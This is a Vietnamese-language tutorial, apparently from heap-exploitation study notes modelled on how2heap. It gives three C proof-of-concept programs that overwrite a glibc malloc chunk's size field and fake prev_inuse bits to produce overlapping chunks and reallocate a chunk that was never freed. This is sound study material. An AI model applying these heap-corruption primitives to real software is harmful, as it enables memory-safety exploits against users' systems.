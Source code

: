 # Overlap

Lấy cảm hứng từ [overlapping chunk](https://github.com/shellphish/how2heap/blob/master/glibc_2.38/overlapping_chunks.c) trên how2heap, dùng để overlapping memory của 2 chunk trong heap. Trên how2heap là trường hợp đặc biệt overlapping nguyên 1 chunk nên không cần set up đoạn `prev_inuse` bit (do next chunk của next chunk chắc chắn có bật `prev_inuse`). POC này sẽ là overlap một phần của chunk.

Code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

int main(int argc , char* argv[])
{
   setbuf(stdout, NULL);

   long *p1,*p2,*p3,*p4;

   p1 = malloc(0x80 - 0x10); // this chunk is for fun
   p2 = malloc(0x500 - 0x10);
   p3 = malloc(0x80 - 0x10);

   // lets overlapping about 0x30 bytes of chunk p2 and p3

   int evil_chunk_size = 0x531;
   int evil_region_size = 0x530 - 0x10;

   /* VULNERABILITY */
   *(p2 - 1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2
   /* VULNERABILITY */

   *(p3 + 5) = 0x21;
   *(p3 + 9) = 0x101; // it checks ((the prev_inuse bit of the next chunk) of the next chunk) so fake this (size doesnt matter, only the bit)

   free(p2);

   p4 = malloc(evil_region_size);

   // p4 (old is p2) and p3 now overlap
   if(p3 < p4 + evil_region_size) puts("True");
}
```

Tác dụng cũng tương tự [Fwd Consolidation](malloc/fwd_consolidation/readme.md)  "to get overlapping memory" nhưng không dùng gì đến cosolidation. 

# Reallocate

Trong trường hợp đặc biệt như how2heap (overlapping toàn bộ chunk) nếu dùng cẩn thận vẫn có thể " to reallocate a chunk that wasn't freed". POC:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

int main(int argc , char* argv[])
{
   setbuf(stdout, NULL);

   long *p1,*p2,*p3,*p4, *p5;

   p1 = malloc(0x80 - 0x10); // this chunk is for fun
   p2 = malloc(0x500 - 0x10);
   p3 = malloc(0x80 - 0x10);
   malloc(0x20); // guard chunk

   // lets overlapping about 0x30 bytes of chunk p2 and p3

   int evil_chunk_size = 0x581;
   int evil_region_size = 0x580 - 0x10;

   /* VULNERABILITY */
   *(p2 - 1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2
   /* VULNERABILITY */

   free(p2);

   p4 = malloc(evil_region_size);

   // now p4 overlapping with p3 (actually contain the whole p3)

   free(p4);
   malloc(0x500 - 0x10);
   p5 = malloc(0x80 - 0x10);

   // now p3 and p5 are the same chunk
   if(p3 == p5) puts("True");
}
```

Và trong trường hợp không đặc biệt (overlapping một phần của chunk) vẫn có thể reallocate về cùng một pointer nhưng lúc đó chunk size sẽ khác nhau. POC:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

int main(int argc , char* argv[])
{
   setbuf(stdout, NULL);

   long *p1,*p2,*p3,*p4, *p5;

   p1 = malloc(0x80 - 0x10); // this chunk is for fun
   p2 = malloc(0x500 - 0x10);
   p3 = malloc(0x80 - 0x10);

   // lets overlapping about 0x30 bytes of chunk p2 and p3

   int evil_chunk_size = 0x531;
   int evil_region_size = 0x530 - 0x10;

   /* VULNERABILITY */
   *(p2 - 1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2
   /* VULNERABILITY */

   *(p3 + 5) = 0x21;
   *(p3 + 9) = 0x101; // it checks ((the prev_inuse bit of the next chunk) of the next chunk) so fake this (size doesnt matter, only the bit)

   free(p2);

   p4 = malloc(evil_region_size);

   // p4 (old is p2) and p3 now overlap
   
   free(p4);
   malloc(0x500 - 0x10);
   p5 = malloc(0x30 - 0x10);

   // now p3 and p5 is the same pointer, but chunk size of p3 is 0x80 and p5 is 0x30
   if(p3 == p5) puts("True");
}
```